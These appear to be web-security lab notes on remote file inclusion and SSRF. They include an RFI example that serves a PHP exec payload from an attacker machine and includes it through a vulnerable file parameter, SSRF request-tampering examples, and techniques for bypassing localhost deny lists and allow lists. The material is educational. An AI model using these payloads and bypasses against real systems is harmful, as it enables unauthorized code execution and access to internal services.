 ### Remote
Include **remote** files into a vulnerable application. One requirement for RFI is that the `allow_url_fopen` option needs to be `on`. The types and examples are  essentially the same as the local file inclusion except we're getting it from a remote server. We could RCE, XSS, DOS, etc. using RFI.

**Example**:

On AttackBox nano a file.txt with contents of: 
```php
<?php
print exec('hostname');
?>
```
Then `python3 -m http.server` and move over to the browser:
`http://10.10.21.255/playground.php?file=http://10.10.86.219:8000/x.txt`

## Server-Side Request Forgery (SSRF)
A vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.
There are two types of SSRF vulnerability; the first is a `regular SSRF` where `data is returned to the attacker's screen`. The second is a `Blind SSRF` vulnerability where an SSRF occurs, but `no information is returned to the attacker's screen`.

| Description | Expected request | Hacker request | Server request |
| - | - | - | - |
| URL modification | `http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123` | `http://website.thm/stock?url=http://api.website.thm/api/user` | `http://api.website.thm/api/user` |
| Directory travelsal | `http://website.thm/stock?url=/item?id=123` | `http://website.thm/stock?url=/../user` | `http://api.website.thm/api/stock/../user` |
| Control the subdomain | `http://website.thm/stock?server=api&id=123` | `http://website.thm/stock?server=api.website.thm/api/user&x=&id=123` | `http://api.website.thm/api/user?x=.website.thm/api/stock/item?id=123` |
| Remote server requests | `http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123` | `http://website.thm/stock?url=http://hacker-domain.thm` | Gets skipped, instead we get data from `hacker-domain.thm` |

### Spotting an SSRF
1. When a full URL is used in a parameter in the address bar.
2. A hidden field in a form: `<input type="hidden" name="server" value="http://server.website.thm/store">`
3. A partial URL such as just the hostname: `https://website.thm/form?server=api`
4. Or perhaps only the path of the URL: `https://website.thm/form?dst=/forms/contact`

### Defeating Common SSRF Defenses
1. Deny list,  bypass by using alternative localhost references such as 0, 0.0.0.0, 0000, 127.1, 127.*.*.*, 2130706433, 017700000001 or subdomains that have a DNS record which resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io.
2. Allow list, circumvent this rule by creating a subdomain on an attacker's domain name, such as https://website.thm.attackers-domain.thm. The application logic would now allow this input and let an attacker control the internal HTTP request.
3. Open Redirect, Take, for example, the link https://website.thm/link?url=https://tryhackme.com. This endpoint was created to record the number of times visitors have clicked on this link for advertising/marketing purposes. But imagine there was a potential SSRF vulnerability with stringent rules which only allowed URLs beginning with https://website.thm/. An attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice.
